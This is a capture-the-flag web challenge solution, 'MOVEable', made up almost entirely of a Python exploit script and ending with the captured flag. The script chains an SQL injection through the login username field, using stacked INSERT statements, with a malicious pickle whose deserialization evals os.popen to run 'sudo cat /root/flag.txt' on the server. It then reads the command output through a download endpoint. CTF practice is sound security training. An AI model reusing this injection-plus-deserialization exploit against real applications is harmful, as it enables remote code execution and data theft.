

# MOVEable: Web  

## moveable_solve.py

```python
from bs4 import BeautifulSoup
import requests
import pickle
import base64

class RCE:
    def __init__(self, payload):
        self.payload = payload
    
    def __reduce__(self):
        # Use self.payload instead of the undefined payload variable
        cmd = f'flash(os.popen("{self.payload}").read().strip()) or redirect(url_for("files"))'
        return eval, (cmd,)

if __name__ == '__main__':
    url = "http://challenge.ctf.games:31338"
    filename = 13371337 # Choose an integer of at least len 8

    payload = "sudo cat /root/flag.txt"
    pickled = base64.urlsafe_b64encode(pickle.dumps(RCE(payload))).decode('utf-8')  # Decode to str directly
    
    # Fix string formatting for SQL injection payload
    parameters = f"username=%0AINSERT%0AOR%0AIGNORE%0AINTO%0Aactivesessions%0A(sessionid,%0Ausername,%0Atimestamp)%0AVALUES%0A('apples',%0A'apples',%0A'apples');%0AINSERT%0AINTO%0Afiles%0A(filename,%0Adata,%0Asessionid)%0AVALUES%0A('{filename}',%0A'{pickled}',%0A'apples');--&password="
    
    header = { "Content-Type": "application/x-www-form-urlencoded" }
    
    # Attempt to log in
    response = requests.post(f"{url}/login", data=parameters, headers=header)
    
    # If login is successful, attempt to download the file
    response = requests.get(f"{url}/download/{filename}/apples")
    
    # Check for output and print the content
    output = BeautifulSoup(response.text, "html.parser").find("div", class_="mt-3 alert alert-danger")
    if output:
        print(output.get_text(strip=True))  # Print extracted text
    else:
        print("No output found.")

```

> flag{ac53cd7aa8a2d1b2340a6eb4a356709e}
